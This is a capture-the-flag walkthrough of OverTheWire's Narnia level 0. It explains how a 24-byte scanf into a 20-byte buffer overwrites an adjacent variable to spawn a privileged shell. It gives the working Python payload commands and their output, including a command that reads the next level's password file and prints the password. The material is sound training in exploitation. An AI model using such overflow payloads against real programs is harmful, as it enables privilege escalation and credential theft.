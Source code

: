 <h1>Narnia 0 &#x2192; Narnia 1 </h1>

<p>There is no information for this level, intentionally.</p>

<h1>Solution</h1>

```
user@host:~$ ssh narnia0@narnia.labs.overthewire.org -p 2226
narnia0
```

As we can read from the game description: `PASSWORDS for each level are stored in /etc/somegame_pass/`. Let us start there. After a few tries it is clear we can't get any information on the files containing the passwords for other levels.

```
narnia0@narnia:/etc/narnia_pass$ file narnia0
narnia0: ASCII text
narnia0@narnia:/etc/narnia_pass$ file narnia1
narnia1: regular file, no read permission
```

In the `/` directory a folder named `narnia` exists.

```
narnia0@narnia:/narnia$ ls
narnia0    narnia1.c  narnia3    narnia4.c  narnia6    narnia7.c
narnia0.c  narnia2    narnia3.c  narnia5    narnia6.c  narnia8
narnia1    narnia2.c  narnia4    narnia5.c  narnia7    narnia8.c
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: narnia0
buf: narnia0
val: 0x41414141
WAY OFF!!!!
```

The program `narnia0.c` goes (excluding the licensing information):

```
narnia0@narnia:/narnia$ cat narnia0.c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

So no matter what we enter into the program, the buffer is never compared to anything. However, the buffer is 20 bytes long but we read 24 bytes into it. Since `scanf` reads the input and puts the memory on the stack, it might overwrite the `val` variable. This is what we wiull try to exploit.

`0xdeadbeef` is the hexadecimal representation of the 32-bit number 3735928559, so it is 4 bytes long. Let's see if we can feed 20 bytes into the program AND something like this number. Lert us start with investigating whether our intuition is right.

```
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 000000000000000000001234
val: 0x34333231
WAY OFF!!!!
```

This is an interesting result. The first 20 `0` characters are read into the buffer, and the last four bytes are read into `val`, but they are oriented backwards! So if we orient the characters backwards in the input it will be read forwards. This is exactly the buffer overflow that `scanf` causes.

Let's automate this a bit. We have `python` in our path:

```
narnia0@narnia:/narnia$ python --version
Python 2.7.13
```

We can hence create these strings without having to count the `0`'s by feeding a small program as a string and having it execute, piping the output into the `narnia0` program.

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "feebdaed"'
00000000000000000000feebdaed
```

Let's try with what we know so far!

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "feebdaed"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000feeb
val: 0x62656566
WAY OFF!!!!
```

We can see that feeding the string as ASCII text is not satisfactory. If we inspect the feedback, we can see that `val` is now equal to `0x62656566`, which is hexadecimal for the word `beef`. So in some way, only the last part of the word made it in. Let's try feeding in bytes instead

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "\xde\xad\xbe\xef"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ޭ��
val: 0xefbeadde
WAY OFF!!!!
```

We can almost read `deadbeef`! We just have to remember that the bytes are read pair-wise!

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
```

This works! But nothing seems to happen...

If we look at the source code, we casn see that two things happen once we set `val` to `deadbeef`:

    1. setreuid90 sets the user id of the calling process (which is our terminal)
    2. A new shell is started by system(), but it exits as it does not get any input

So we just need to feed it more commands! That is simple by using parenthesis:

```
narnia0@narnia:/narnia$ (python -c 'print "0"*20 + "\xef\xbe\xad\xde"'; echo id;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
```

Now just read the password from the folder.

```
narnia0@narnia:/narnia$ (python -c 'print "0"*20 + "\xef\xbe\xad\xde"'; echo cat ../etc/narnia_pass/narnia1 ;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
efeidiedae
```

[narnia level 0](0.md)
[narnia level 2](2.md)

